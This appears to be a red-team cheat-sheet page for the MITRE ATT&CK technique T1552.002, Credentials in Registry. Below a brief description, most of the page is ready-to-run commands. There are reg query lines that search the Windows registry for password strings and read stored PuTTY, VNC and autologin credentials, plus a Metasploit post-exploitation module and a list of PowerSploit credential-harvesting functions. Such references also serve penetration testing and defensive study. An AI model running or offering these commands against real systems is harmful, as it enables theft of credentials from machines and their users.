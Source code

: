 ```yaml
---
description: https://attack.mitre.org/techniques/T1552/002/
---
```


# Credentials in Registry

**ATT\&CK ID:** [T1552.002](https://attack.mitre.org/techniques/T1552/002/)

**Permissions Required:** <mark style="color:orange;">**Various**</mark>

**Description**

Adversaries may search the Registry on compromised systems for insecurely stored credentials. The Windows Registry stores configuration information that can be used by the system or other programs. Adversaries may query the Registry looking for credentials and passwords that have been stored for use by other programs or services. Sometimes these credentials are used for automatic logons.

## Techniques

### CMD

```bash
# String matching in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /t REG_SZ /s

# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

### Metasploit

```
post/windows/gather/credentials/windows_autologin
```

### PowerSploit

**URL:** [https://github.com/PowerShellMafia/PowerSploit/tree/dev/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/dev/Privesc)

```bash
# Import privesc module
# Import-Module .\Privesc.psd1

Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-SiteListPassword
Get-CachedGPPPassword
Get-RegistryAutoLogon
```
